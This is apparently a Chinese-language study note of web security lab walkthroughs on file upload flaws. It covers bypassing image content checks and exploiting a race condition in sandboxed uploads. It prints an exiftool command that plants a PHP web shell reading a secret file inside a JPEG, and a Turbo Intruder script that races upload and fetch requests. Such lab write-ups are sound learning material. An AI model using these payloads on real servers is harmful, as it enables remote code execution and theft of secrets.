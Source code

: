 有些更安全的網站會對檔案內容進行驗證，例如：會對照片的尺寸進行驗證，一個 PHP 程式碼就不會有唯獨，就會被限制。又或者會去驗證檔案中的某個特定部分，例如：JPEG 檔始終會以 `FF D8 FF` 開頭。

但仍然可使用特殊工具（如 ExifTool）製作惡意程式碼的 JPEG 檔。

- **Lab: Remote code execution via polyglot web shell upload**
    1. 上傳 `test.php` 後發現，回應說只能上傳圖片檔。
    2. 使用 exiftool 工具將任一照片的 coment 值設成：`exiftool -comment="<?php echo 'Hello world '; passthru('cat /home/carlos/secret'); echo ' this is the end';?>" {file_path}`。
    3. 將修改後的照片檔副檔名修改成 `.php` 並上傳。
    4. 利用 Burp Suite 獲取會傳的封包，就看到密碼了～

### 檔案上傳的競爭條件

網站為了避免被攻擊，會先將檔案上傳到沙盒，若發現檔案中有危害的程式，就會刪除檔案。

競爭條件就是在判斷是否有危害程式的時候，立即抓去檔案下來。這種方式必須使用程式來執行，或透過 Turp Intruder 等工具，在短時間內上傳檔案並下載檔案。

- **Lab: Web shell upload via race condition**
    1. 上傳一張照片，並打開照片。
    2. 上傳一個 `test.php` 檔，回應顯示只能上傳照片檔。
    3. 使用 Turp Intruder，貼上這段程式：
        
        ```python
        def queueRequests(target, wordlists):
            engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)
        
            request1 = '''<YOUR-POST-REQUEST>'''
        
            request2 = '''<YOUR-GET-REQUEST>'''
        
            # the 'gate' argument blocks the final byte of each request until openGate is invoked
            engine.queue(request1, gate='race1')
            for x in range(5):
                engine.queue(request2, gate='race1')
        
            # wait until every 'race1' tagged request is ready
            # then send the final byte of each request
            # (this method is non-blocking, just like queue)
            engine.openGate('race1')
        
            engine.complete(timeout=60)
        
        def handleResponse(req, interesting):
            table.add(req)
        ```
        
    4. 將 `<YOUR-POST-REQUEST>` 修改成上傳 `test.php` 的封包。注意：需在封包最後加入 `\r\n\r\n`。
    5. 將 `<YOUR-GET-REQUEST>` 修改成上傳照片的封包，並將抓去的路徑修改成 `GET /files/avatars/<YOUR-IMAGE>`。注意：需在封包最後加入 `\r\n\r\n`。
    6. 點擊下方 Attack 按鈕後，選擇狀態碼為 200 的回應封包，就看到密碼了～
